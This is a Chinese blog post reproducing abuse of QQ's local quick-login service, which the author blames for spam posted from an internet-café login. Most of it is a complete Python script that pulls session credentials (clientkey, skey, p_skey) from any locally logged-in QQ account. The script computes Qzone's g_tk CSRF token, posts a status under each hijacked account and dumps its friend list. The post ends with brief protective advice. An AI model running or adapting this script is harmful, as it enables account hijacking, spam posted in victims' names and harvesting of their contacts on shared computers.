









记一次QQ本地快捷登录漏洞复现
为什么你的QQ空间会自动乱发说说，发的都是些赌钱什么的
例如：

这些是怎么做到的呢？看完本文，你就明白为什么会这样了
接着往下看吧！
背景
昨天我的空间和Q群发布了一些莫名其妙的东西，大概是因为前两天去网吧开黑登了QQ。
冷静分析
遇到这种情况，一开始想到的是CSRF，毕竟之前遇到过“QQ空间蠕虫”这样的事情，但是结合去网吧的行为，并没有打开什么网页，登录了空间并进行其他什么操作，故排除。
那么猜测，很大概率是因为在网吧开黑的时候登录了QQ，然后获取到了本地QQ的一些权限，被代替进行了一些高权限操作，比如发信息，发说说。
罪魁祸首——快捷登录
经过查阅资料，基本坐实了是快捷登录的锅
以下是对整套黑产行为的概括
对快捷登录研究了一下午，也用python做了复现，下面对其进行技术分析
技术分析
QQ现在实现快捷登录的方式是这样的
本地起一个服务器，本地侦听
4301端口，等待本地应用与其进行HTTP交互应用按照接口要求，从远程服务器获取
pt_local_token，然后带着这个参数请求4301端口，获取本地登录的账号信息拿到账号后，再次请求本地的
4301端口，请求指定账号登录cookie，获得clientkey请求远程登录服务器，获取对应账号的对应业务的cookie，然后就是请求一个检查的网页，通过验证，返回认证令牌（
skey）。带着这个令牌就可以对应用进行登录了
可以看出，本地的任何应用都可以与QQ建立的本地服务器进行交互，获取到账号信息，进而进行快捷登录。漏洞就出在这。
现在对快捷登录的请求进行详细的抓包分析。
1. 向远处服务器请求，获取到pt_local_token参数

请求域名`xui.ptlogin2.qq.com`
|
|
url其中的一些参数并不需要理会，抓个包复制上去就好。
这个请求检查了Referer，所以Referer要改成*.qq.com
请求的响应中，设置了pt_local_token这个cookie

2\. 带着` pt_local_token`，对本地端口进行请求，获取账号信息

返回的响应是一段JS
|
|
这里面包含本地已登录的账户信息，包括账号，昵称和性别以及一些其他参数
3. 带着pt_local_token以及账号对本地端口进行请求，获取指定账号的clientkey
|
|
其中参数clientuin是Q号，r是随机数，可以随便给，pt_local_tk就是pt_local_token
请求响应返回一个clientkey的Set-Cookie

4. 带着包含clientkey的cookie向远程服务器进行登录
|
|
其中clientuin是账号，u1是对应业务的地址，各种带着id的字段应该都是对应业务，抓个包复制下来就好了，不用太在意。
这一步并不需要什么认证，带上刚才的Cookie，发送对应的请求就可以获得登录的Cookie（包含skey字段），以及会返回一个验证的网址，需要GET一下这个网址才能获取到真正的应用登录Cookie（包含p_skey字段）
请求响应：
|
|
返回的是一段JS，里面的网址是验证网址，我们需要请求它通过验证，不需要额外的参数，直接请求返回回来的这一串网址
5. 请求第4步返回的验证网址即可获得完整的登录权限
|
|
对本地账号自动发一条说说
要实现这个目的无非就是完成上面的快捷登录，然后再在空间里面寻求发说说的请求，模拟一下即可
基本的抓包找参数的功夫就不细说了
值得一提的是空间是有CSRF防御的，所以需要找到两个参数才能发送说说
1.qzone_token
2.g_tk
其中qzone_token是刷新空间的时候在页面中给你的一个token，直接正则拿到就好

3.追踪`g_tk`参数花了我不少功夫，其源码在[https://qzonestyle.gtimg.cn/qzone/v8/engine/migrate-plugin.js](https://qzonestyle.gtimg.cn/qzone/v8/engine/migrate-plugin.js) 的`getACSRFToken`函数中
|
|
其实就是各种判断Cookie里面是否存在skey或者p_skey然后拿来做一个简单的移位加密
核心代码就这点，比打CTF的时候简单多了诶，放比赛里简直就是送分
|
|
所以可以看出g_tk是由p_skey简单的移位加密生成的
那么抓包一下发说说的请求
|
|
将qzonetoken和g_tk放进去，再在POST数据里面的con字段变成你想发的说说，就可以完成类似于你在我电脑上上个Q我就能进到你的空间发说说，看隐私的目的。
复现
花了几个小时写了复现脚本
只要脚本运行，在本机上线的QQ都会发一条说说以及被获取到所有好友信息、备注、昵称以及好友分组
检测本地账号

发送指定说说

获取好友列表信息以及分组


测试源码
（脚本仅供学习之用，禁止用于非法用途！）
import requests
import re
# 计算发送说说的防御CSRF的Token
def getACSRFToken(p_skey):
hash_v = 5381
if p_skey:
for i in range(len(p_skey)):
hash_v += (hash_v << 5) + ord(p_skey[i])
return hash_v & 2147483647
return None
# 想要发送的说说
Message = "This is an automated messaging test by wz"
header = {
"User-Agent": "Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.80 Safari/537.36",
"Referer": "https://i.qq.com/"
}
# 从QQ服务器获取请求本地服务器的Cookie
get_local_token_url = "https://xui.ptlogin2.qq.com/cgi-bin/xlogin?" \
"proxy_url=https%3A//qzs.qq.com/qzone/v6/portal/proxy.html&daid=5&&hide_title_bar=1&" \
"low_login=0&qlogin_auto_login=1&no_verifyimg=1&link_target=blank&" \
"appid=549000912&style=22&target=self&" \
"s_url=https%3A%2F%2Fqzs.qzone.qq.com%2Fqzone%2Fv5%2Floginsucc.html%3Fpara%3Dizone&pt_qr_app=%E6%89%8B%E6%9C%BAQQ%E7%A9%BA%E9%97%B4&" \
"pt_qr_link=http%3A//z.qzone.com/download.html&self_regurl=https%3A//qzs.qq.com/qzone/v6/reg/index.html&" \
"pt_qr_help_link=http%3A//z.qzone.com/download.html&pt_no_auth=1"
# Header头Referer字段必须为qq.com
login_session = requests.Session()
res = login_session.get(get_local_token_url, headers=header)
# 获取关键参数pt_local_token
pt_local_token = res.cookies.get("pt_local_token")
# 带着刚才的Cookie以及从Cookie中拿到的pt_local_tk对本地服务器进行请求
# 获取已登录的账号信息
port = 4301
local_qq_server_url = "https://localhost.ptlogin2.qq.com" # 建立在本地的QQ服务器地址，等待应用与其交互
# 传参获取本地已登录账号信息
get_QQ_num_url = local_qq_server_url + \
":{}/pt_get_uins?callback=ptui_getuins_CB&r=0.7068102287925351&pt_local_tk={}".format(port,
pt_local_token)
res = login_session.get(get_QQ_num_url, headers=header)
# 返回的账号信息是一段js的数组
dic_str = None
try:
dic_str = re.findall("var var_sso_uin_list=(\[[\s\S]*?\])", res.text)[0]
except IndexError:
print("Fail to get local account info. ")
exit(0)
# ====================================== 显示本地登录账号信息 ===========================================
account_list = eval(dic_str)
print("Detect {} account login locally".format(len(account_list)))
print("=====================================================")
account_num_list = []
for i in range(len(account_list)):
print("NO.{}".format(i + 1))
print("account:{}\nnickname:{}".format(account_list[i].get("account"), account_list[i].get("nickname")))
account_num_list.append(account_list[i].get("account"))
print("=====================================================")
# ====================================== 对每个账号进行快捷登录 ===========================================
# ===================================== 以登录QQ空间发个说说为例 ==========================================
# 对于已登录的账号
for account in account_num_list:
# 发送QQ号码及pt_local_token参数到本地服务器获取必要的Cookie，以便获取远程服务器登录许可
get_QQ_cookie_url = local_qq_server_url + \
":{}/pt_get_st?callback=ptui_getst_CB&" \
"r=0.7068102287925351&" \
"pt_local_tk={}&" \
"clientuin={}".format(port,
pt_local_token,
account)
res = login_session.get(get_QQ_cookie_url, headers=header)
# 获取远程登录凭证
# 其中u1为QQ空间地址（抓包可获得）
login_url = "https://ssl.ptlogin2.qq.com/jump?clientuin={}&" \
"keyindex=9&" \
"pt_aid=549000912&" \
"daid=5&" \
"u1=https%3A%2F%2Fqzs.qzone.qq.com%2Fqzone%2Fv5%2Floginsucc.html%3Fpara%3Dizone&" \
"pt_local_tk={}&" \
"pt_3rd_aid=0&" \
"ptopt=1&style=40".format(account, pt_local_token)
# 按照抓包获得的请求照样地设置了一下Referer 免得有检测
login_session.headers['Referer'] = get_local_token_url
res = login_session.get(login_url)
# 至此获取凭证(clientkey)成功,下面获取p_skey
# 到此处会有个check操作，需要GET去请求验证一下上一个请求响应内容给的地址
# ============================================ 获取p_skey ===================================================
zone_login_check_url = None
try:
# 获取认证地址及参数
zone_login_check_url = re.findall("'(http.*?)'", res.text)[0]
except IndexError:
print('Fail to get login token .')
exit(0)
# 发起认证请求
res = login_session.get(zone_login_check_url)
# 一样的补一下Referer和UA
login_session.headers['Referer'] = "https://qzs.qzone.qq.com/qzone/v5/loginsucc.html?para=izone"
login_session.headers[
'User-Agent'] = "Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.80 Safari/537.36"
# 请求对应账号的空间，获取发送说说必要参数——qzone_token(响应的JS里面获取)以及p_skey(cookie中获取)
res = login_session.get("https://user.qzone.qq.com/{}".format(account))
# 获取必要参数p_skey用来计算CSRFToken
p_skey = login_session.cookies.get("p_skey")
g_tk = getACSRFToken(p_skey) # 计算CSRFToken
# 从响应的页面JS中获取qzone_token
res.encoding = 'utf-8'
qzone_token = re.findall('window.g_qzonetoken = \(function\(\){ try\{return "([0-9a-fA-F]+?)";\}', res.text)[0]
# 发送说说的地址（抓包可得），并传入刚才获取的qzone_token以及g_tk
post_comment_url = "https://user.qzone.qq.com/proxy/domain/taotao.qzone.qq.com/cgi-bin/emotion_cgi_publish_v6?" \
"qzonetoken={}&g_tk={}".format(qzone_token, g_tk)
# 补一下Content-Type
login_session.headers["Content-Type"] = "application/x-www-form-urlencoded"
# 发送说说的必要参数（抓包可得），其中con字段及说说内容
param = {"syn_tweet_verson": "1", "paramstr": "1", "pic_template": "", "richtype": "", "richval": "",
"special_url": "", "subrichtype": "", "who": "1", "con": Message, "feedversion": "1",
"ver": "1", "ugc_right": "1", "to_sign": "0", "hostuin": "3517713083", "code_version": "1", "format": "fs",
"qzreferrer": "https%3A%2F%2Fuser.qzone.qq.com%2F3517713083"}
# 发送说说
res = login_session.post(post_comment_url, data=param)
if res.status_code == 200:
print("[+] Account {} send message successfully.".format(account))
# ================================================= 获取好友列表 =====================================================
# 接口地址
get_friends_url = "https://h5.qzone.qq.com/proxy/domain/r.qzone.qq.com/cgi-bin/tfriend/friend_show_qqfriends.cgi?" \
"uin={}&follow_flag=1&" \
"groupface_flag=0&fupdate=1&" \
"g_tk={}".format(account, g_tk)
res = login_session.get(get_friends_url)
print("QQ friends info.")
print(res.text)这一些接口其实我们都很熟悉Web页面的快捷登录，这一些操作就是模拟了浏览器或者说软件强制代替你进行了快捷登录。注意是运行在本地上的任何软件都可以做到这个目的。所以账号密码并没有被盗取，而是被一些恶意的软件盗取的登录凭证，代替你发送了垃圾信息。当然我没有讨论如何绕过网吧的还原机制，这又是另一码事了。
一些图谋不轨的人就将这些接口凑起来，写个软件种在网吧等公共上网设施，等待上Q的人帮他进行一些黑产行为，如在QQ群，空间里面发博彩、色情信息以及广告，进行牟利。这些技术并不复杂，很多初中甚至小学文化的“大黑阔”都可以写（蹲）出（牢）来（里）。
防范措施：
在公共场合尽量不登录QQ，毕竟谁都可以帮你发一些奇奇怪怪的东西
若发现自己账号异常，开始乱发东西时，第一时间修改密码会导致“大黑阔”获取的cookie瞬间失效，可以立即停止发送垃圾信息
然后就可以进行删除说说，发群道歉或者像我这样写一篇文章进行面子的最后补救了

文章参考来源：Wz's blog
作者：Wz
如有侵权，联系删除